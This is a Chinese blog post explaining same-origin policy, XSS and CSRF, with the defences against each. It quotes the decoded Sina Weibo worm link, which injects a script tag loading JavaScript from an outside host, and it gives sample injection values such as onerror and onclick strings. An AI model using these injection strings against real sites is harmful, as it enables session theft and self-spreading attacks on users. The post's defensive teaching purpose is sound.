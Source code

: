 ```yaml
---
title: 浅谈XSS和CSRF
tags:
  - csrf
  - xss
url: 256.html
id: 256
categories:
  - 程序与生活
  - 经验分享
date: 2014-08-24 14:03:34
---
```


### 同源策略（Same Origin Policy）

同源策略阻止从一个源加载的文档或脚本获取或设置另一个源加载的文档的属性。

如：

不能通过Ajax获取另一个源的数据；

JavaScript不能访问页面中iframe加载的跨域资源。

对 http://store.company.com/dir/page.html 同源检测

[![28230050-d605bfba1f1b48e081353243800c253c](http://storage.veitor.net/uploads/2014/08/28230050-d605bfba1f1b48e081353243800c253c.png)](http://storage.veitor.net/uploads/2014/08/28230050-d605bfba1f1b48e081353243800c253c.png)

### 跨域限制

1.  浏览器中，script、img、iframe、link等标签，可以跨域引用或加载资源。
2.  不同于 XMLHttpRequest，通过src属性加载的资源，浏览器限制了JavaScript的权限，使其不能读、写返回的内容。
3.  XMLHttpRequest 也受到也同源策略的约束，不能跨域访问资源。

### JSONP

为了解决 XMLHttpRequest 同源策略的局限性，JSONP出现了。

JSONP并不是一个官方的协议，它是利用script标签中src属性具有跨域加载资源的特性，而衍生出来的跨域数据访问方式。

### CORS(Cross-Origin Resource Sharing)

CORS，即：**跨域资源共享**。

这是W3C委员会制定的一个新标准，用于解决 XMLHttpRequest 不能跨域访问资源的问题。目前支持情况良好（特指移动端）。

想了解更多，可查看之前的文章：[《CORS(Cross-Origin Resource Sharing) 跨域资源共享》](http://www.cnblogs.com/maplejan/archive/2012/12/02/2797864.html)

* * *

XSS（Cross Site Script）
----------------------

XSS（Cross Site Script） 即：**跨站脚本攻击**。

本来缩写其应该是CSS，不过为了避免和CSS层叠样式表 （Cascading Style Sheets）重复，所以在安全领域叫做 XSS 。

### XSS 分类

XSS 主要分为两种形态

1.  反射型XSS（非持久型XSS）。需要诱惑用户去激活的XSS攻击，如：点击恶意链接。
2.  存储型XSS。混杂有恶意代码的数据被存储在服务器端，当用户访问输出该数据的页面时，就会促发XSS攻击。具有很强的稳定性。

### XSS Payload

XSS Payload，是指那些用于完成各种具体功能的恶意脚本。

由于实现XSS攻击可以通过JavaScript、ActiveX控件、Flash插件、Java插件等技术手段实现，下面只讨论JavaScript的XSS Payload。

通过JavaScript实现的XSS Payload，一般有以下几种：

1.  Cookie劫持
2.  构造请求
3.  XSS钓鱼
4.  CSS History Hack

### Cookie劫持

由于Cookie中，往往会存储着一些用户安全级别较高的信息，如：用户的登陆凭证。

当用户所访问的网站被注入恶意代码，它只需通过 _document.cookie _这句简单的JavaScript代码，就可以顺利获取到用户当前访问网站的cookies。

如果攻击者能获取到用户登陆凭证的Cookie，甚至可以绕开登陆流程，直接设置这个cookie的值，来访问用户的账号。

### 构造请求

JavaScript 可以通过多种方式向服务器发送GET与POST请求。

网站的数据访问和操作，基本上都是通过向服务器发送请求而实现的。

如果让恶意代码顺利模拟用户操作，向服务器发送有效请求，将对用户造成重大损失。

例如：更改用户资料、删除用户信息等...

### XSS钓鱼

关于网站钓鱼，详细大家应该也不陌生了。

就是伪造一个高度相似的网站，欺骗用户在钓鱼网站上面填写账号密码或者进行交易。

而XSS钓鱼也是利用同样的原理。

注入页面的恶意代码，会弹出一个想死的弹窗，提示用户输入账号密码登陆。

当用户输入后点击发送，这些资料已经去到了攻击者的服务器上了。

如：

[![28231056-882bbad839274f95a635ddbd128db3c4](http://storage.veitor.net/uploads/2014/08/28231056-882bbad839274f95a635ddbd128db3c4.png)](http://storage.veitor.net/uploads/2014/08/28231056-882bbad839274f95a635ddbd128db3c4.png)

### CSS History Hack

CSS History Hack是一个有意思的东西。它结合 浏览器历史记录 和 CSS的伪类：a:visited，通过遍历一个网址列表来获取其中<a>标签的颜色，就能知道用户访问过什么网站。

相关链接：

PS：目前最新版的Chrome、Firefox、Safari已经无效，Opera 和 IE8以下 还可以使用。

### XSS Worm

XSS Worm，即XSS蠕虫，是一种具有自我传播能力的XSS攻击，杀伤力很大。

引发 XSS蠕虫 的条件比较高，需要在用户之间发生交互行为的页面，这样才能形成有效的传播。一般要同时结合 反射型XSS 和 存储型XSS 。

案例：Samy Worm、新浪微博XSS攻击

### 新浪微博XSS攻击

这张图，其实已经是XSS蠕虫传播阶段的截图了。

攻击者要让XSS蠕虫成功被激活，应该是通过 私信 或者 @微博 的方式，诱惑一些微博大号上当。

当这些大号中有人点击了攻击链接后，XSS蠕虫就被激活，开始传播了。

[![28231427-6c93f6962f234f0a8576b1a8979da50e](http://storage.veitor.net/uploads/2014/08/28231427-6c93f6962f234f0a8576b1a8979da50e.png)](http://storage.veitor.net/uploads/2014/08/28231427-6c93f6962f234f0a8576b1a8979da50e.png)

这个XSS的漏洞，其实就是没有对地址中的变量进行过滤。

把上一页的链接decode了之后，我们就可以很容易的看出，这个链接的猫腻在哪里。

链接上带的变量，直接输出页面，导致外部JavaScript代码成功注入。

传播链接：http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update

把链接decode之后：http://weibo.com/pub/star/g/xyyyd"><script src=//www.2kt.cn/images/t.js></script>?type=update

[![28231439-beba435e8f8f4a97acdeee43ad981aef (1)](http://storage.veitor.net/uploads/2014/08/28231439-beba435e8f8f4a97acdeee43ad981aef-1.png)](http://storage.veitor.net/uploads/2014/08/28231439-beba435e8f8f4a97acdeee43ad981aef-1.png)

相关XSS代码这里就不贴了，Google一下就有。

其实也要感谢攻击者只是恶作剧了一下，让用户没有造成实际的损失。

网上也有人提到，如果这个漏洞结合XSS钓鱼，再配合隐性传播，那样杀伤力会更大。

* * *

XSS 防御技巧
--------

### HttpOnly

服务器端在设置安全级别高的Cookie时，带上HttpOnly的属性，就能防止JavaScript获取。

PHP设置HttpOnly：

<?
header("Set-Cookie: a=1;", false);
header("Set-Cookie: b=1;httponly", false);
setcookie("c", "1", NULL, NULL, NULL, NULL, ture);

 

PS：手机上的QQ浏览器4.0，居然不支持httponly，而3.7的版本却没问题。测试平台是安卓4.0版本。

估计是一个低级的bug，已经向QQ浏览器那边反映了情。

截止时间：2013-01-28

 

### 输入检查

**任何用户输入的数据，都是“不可信”的。**

输入检查，一般是用于输入格式检查，例如：邮箱、电话号码、用户名这些...

都要按照规定的格式输入：电话号码必须纯是数字和规定长度；用户名除 中英文数字 外，仅允许输入几个安全的符号。

输入过滤不能完全交由前端负责，前端的输入过滤只是为了避免普通用户的错误输入，减轻服务器的负担。

因为攻击者完全可以绕过正常输入流程，直接利用相关接口向服务器发送设置。

所以，前端和后端要做相同的过滤检查。

### 输出检查

相比输入检查，前端更适合做输出检查。

可以看到，HttpOnly和前端没直接关系，输入检查的关键点也不在于前端。

那XSS的防御就和前端没关系了?

当然不是，随着移动端web开发发展起来了，Ajax的使用越来越普遍，越来越多的操作都交给前端来处理。

前端也需要做好XSS防御。

JavaScript直接通过Ajax向服务器请求数据，接口把数据以JSON格式返回。前端整合处理数据后，输出页面。

所以，前端的XSS防御点，在于输出检查。

但也要结合**XSS可能发生的场景**。

### XSS注意场景

**在HTML标签中输出**

如：<a href=# >{$var}</a>

风险：{$var} 为 <img src=# onerror="/xss/" />

防御手段：变量HtmlEncode后输出

**在HTML属性中输出**

如：<div data-num="{$var}"></div>

风险：{$var} 为 " onclick="/xss/

防御手段：变量HtmlEncode后输出

**在<script>标签中输出**

如：<script>var num = {$var};</script>

风险：{$var} 为 1; alert(/xss/)

防御手段：确保输出变量在引号里面，再让变量JavaScriptEncode后输出。

**在事件中输出**

如：<span onclick="fun({$var})">hello!click me!</span>

风险：{$var} 为 ); alert(/xss/); //

防御手段：确保输出变量在引号里面，再让变量JavaScriptEncode后输出。

**在CSS中输出**

一般来说，尽量禁止用户可控制的变量在<style>标签和style属性中输出。

**在地址中输出**

如：<a href="http://3g.cn/?test={$var}">

风险：{$var} 为 " onclick="alert(/xss/)

防御手段：对URL中除 协议(Protocal) 和 主机(Host) 外进行URLEncode。如果整个链接都由变量输出，则需要判断是不是http开头。

### HtmlEncode

对下列字符实现编码

&     ——》    &amp;

<     ——》    &lt;

>     ——》    &gt;

"    ——》    &quot;

'    ——》    &#39; （IE不支持&apos;）

/      ——》    &#x2F;

### JavaScriptEncode

对下列字符加上反斜杠

"    ——》    \\"

'    ——》    \\'

\      ——》    \\\

\\n    ——》    \\\n

\\r     ——》    \\\r      (Windows下的换行符)

例子： "\\\".replace(/\\\/g, "\\\\\\");  //return \\\

推荐一个JavaScript的模板引擎：[**artTemplate**](http://aui.github.com/artTemplate/%20)

### URLEncode

使用以下JS原生方法进行URI编码和解码：

*   encodeURI
*   decodeURI
*   decodeURIComponent
*   encodeURIComponent

* * *

CSRF（Cross-site request forgery）
--------------------------------

[![28232804-51bdd6fb20674c99a3af90124348859c](http://storage.veitor.net/uploads/2014/08/28232804-51bdd6fb20674c99a3af90124348859c.png)](http://storage.veitor.net/uploads/2014/08/28232804-51bdd6fb20674c99a3af90124348859c.png)

 

CSRF 即：**跨站点请求伪造**

网站A ：为恶意网站。

网站B ：用户已登录的网站。

当用户访问 A站 时，A站 私自访问 B站 的操作链接，模拟用户操作。

假设B站有一个删除评论的链接：http://b.com/comment/?type=delete&id=81723

A站 直接访问该链接，就能删除用户在 B站 的评论。

### CSRF 的攻击策略

因为浏览器访问 B站 相关链接时，会向其服务器发送 B站 保存在本地的Cookie，以判断用户是否登陆。所以通过 A站 访问的链接，也能顺利执行。

* * *

CSRF 防御技巧
---------

 

### 验证码

几乎所有人都知道验证码，但验证码不单单用来防止注册机的暴力破解，还可以有效防止CSRF的攻击。

验证码算是对抗CSRF攻击最简洁有效的方法。

但使用验证码的问题在于，不可能在用户的所有操作上都需要输入验证码。

只有一些关键的操作，才能要求输入验证码。

不过随着HTML5的发展。

利用canvas标签，前端也能识别验证码的字符，让CSRF生效。

### Referer Check

Referer Check即来源检测。

HTTP Referer 是 Request Headers 的一部分，当浏览器向web服务器发出请求的时候，一般会带上Referer，告诉服务器用户从哪个站点链接过来的。

服务器通过判断请求头中的referer，也能避免CSRF的攻击。

### Token

CSRF能攻击成功，根本原因是：操作所带的参数均被攻击者猜测到。

既然知道根本原因，我们就对症下药，利用Token。

当向服务器传参数时，带上Token。这个Token是一个随机值，并且由服务器和用户同时持有。

Token可以存放在用户浏览器的Cookie中，

当用户提交表单时带上Token值，服务器就能验证表单和Cookie中的Token是否一致。

（前提，网站没有XSS漏洞，攻击者不能通过脚本获取用户的Cookie）

原文地址：http://www.cnblogs.com/alilang/archive/2013/01/29/2880843.html
